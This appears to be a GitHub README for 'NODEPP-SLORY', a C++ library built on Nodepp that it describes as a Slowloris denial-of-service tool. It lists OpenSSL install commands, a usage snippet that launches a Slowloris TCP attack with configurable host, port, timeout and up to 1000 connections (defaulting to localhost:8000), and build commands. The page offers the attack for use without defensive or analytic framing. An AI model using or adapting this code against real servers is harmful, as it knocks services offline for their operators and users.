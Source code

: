 # NODEPP-SLORY

A DDoN Service Slowloris algorithm using Nodepp.

## Dependencies

- **Openssl**
    - 🪟: `pacman -S mingw-w64-ucrt-x86_64-openssl`
    - 🐧: `sudo apt install libssl-dev`

# Usage

```cpp
#include <nodepp/nodepp.h>
#include <slory.h>

using namespace nodepp;

void onMain(){

    slory_config_t args;
    args.host     = "localhost";
    args.IPPROTO  = IPPROTO_TCP;
    args.timeout  = 10000;
    args.maxconn  = 1000;
    args.port     = 8000;

    auto slory = slory::tcp( args );
    console::log("slowlory started");

    slory.onProgress([=]( uint a, uint b ){
        console::log( "->", a, b );
    });

}
```

# Build & Run

- 🪟: `g++ -o main main.cpp -I ./include -lssl -lcrypto -lws2_32 ; ./main`
- 🐧: `g++ -o main main.cpp -I ./include -lssl -lcrypto ; ./main`
